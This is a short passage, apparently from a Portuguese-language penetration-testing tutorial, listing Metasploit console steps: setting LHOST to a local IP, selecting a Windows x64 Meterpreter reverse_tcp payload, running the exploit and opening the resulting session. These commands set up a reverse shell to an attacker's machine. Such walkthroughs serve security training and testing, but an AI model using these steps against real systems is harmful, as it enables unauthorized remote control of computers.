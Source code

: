    ```
   set LHOST 192.168.1.50
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   ```
5. **Executar ataque:**
   ```
   exploit
   ```
6. **Gerenciar sessões:**
   ```
   sessions -i 1
   ```
